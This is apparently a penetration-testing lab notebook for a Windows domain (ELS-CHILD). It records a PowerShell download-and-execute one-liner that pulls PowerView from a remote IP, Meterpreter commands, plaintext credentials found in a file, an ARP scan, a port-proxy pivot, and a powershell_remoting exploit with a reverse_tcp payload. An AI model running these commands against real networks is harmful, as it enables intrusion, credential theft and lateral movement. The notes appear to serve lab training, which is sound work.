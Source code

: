 > [+]
// DC
els.child.eLS.local
10.100.10.253

### local_admin is a local administrator of the domain controller
```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('http://175.13.80.5:8000/PowerView.ps1'); Find-LocalAdminAccess"
```

### going back to SYSTEM
```bash
ctrl+z the shell
in Meterpreter:
	rev2self
```

### search for files
```powershell
search -f *.txt

found a file uat_teste_account.txt with credentials:
	Username: ELS-CHILD\local_admin
	Password: P@ssw0rd123 
```

### arp scanner
use post/windows/gather/arp_scanner
set options
// we found a new ip 10.11.100.101

### set a proxy to the internal network
use post/windows/manage/portproxy
```powershell
set CONNECT_ADDRESS <kali ip>
set CONNECT_PORT 4444
set LOCAL_ADDRESS 10.100.11.101
set LOCAL_PORT 4444 
set SESSION 1
run
```

### powershell_remoting to execute commands in that internal network
use exploit/windows/local/powershell_remoting
```powershell
set SMBUSER local_admin
set SMBPASS P@ssw0rd123
set SMBDOMAIN ELS-CHILD
set RHOSTS 10.100.11.100
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.100.11.101
set LPORT 4444
exploit -j
```
